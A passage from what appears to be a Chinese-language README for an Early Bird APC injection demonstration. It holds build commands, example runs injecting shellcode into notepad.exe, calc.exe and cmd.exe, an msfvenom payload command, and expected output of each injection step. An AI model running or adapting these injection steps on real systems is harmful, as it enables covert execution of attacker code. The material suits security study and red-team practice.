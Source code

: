 ```bash
gcc -o build/x64/test_payload.exe src/test_payload.c -luser32 -mwindows -O2 -s
```

### Linux (交叉编译)

```bash
# 运行构建脚本
./build.sh

# 或使用 CMake
mkdir build && cd build
cmake ..
make
```

### 运行示例

```bash
# 管理员权限运行（注入到 notepad.exe）
build/x64/early_bird_apc.exe C:\Windows\System32\notepad.exe build/x64/payload.bin

# 注入到 calc.exe
build/x64/early_bird_apc.exe C:\Windows\System32\calc.exe build/x64/payload.bin

# 使用自定义 shellcode
# 1. 生成自定义 shellcode（例如使用 msfvenom）
msfvenom -p windows/x64/messagebox TEXT="Pwned!" -f raw -o custom.bin

# 2. 注入自定义 shellcode
build/x64/early_bird_apc.exe C:\Windows\System32\cmd.exe custom.bin
```

**预期输出**：
```
======================================
  Early Bird APC Injection 技术
======================================

[1] 读取 shellcode 文件
    文件：build/x64/payload.bin
    大小：317 字节
    ✓ Shellcode 读取成功

[2] 以调试模式创建目标进程
    目标：C:\Windows\System32\notepad.exe
    进程 PID：1234
    线程 TID：5678
    ✓ 进程已创建（挂起状态）

[3] 注入 shellcode 到远程进程
    注入地址：0x00000000ABCD0000
    ✓ Shellcode 注入成功

[4] 将 shellcode 地址加入主线程 APC 队列
    ✓ APC 已排队到线程 5678

[5] 停止调试，恢复进程执行
    ✓ 进程已恢复运行
    ✓ 主线程启动时将自动执行 APC 队列中的 shellcode

======================================
✓ Early Bird APC 注入完成
进程 PID：1234
线程 TID：5678
======================================
```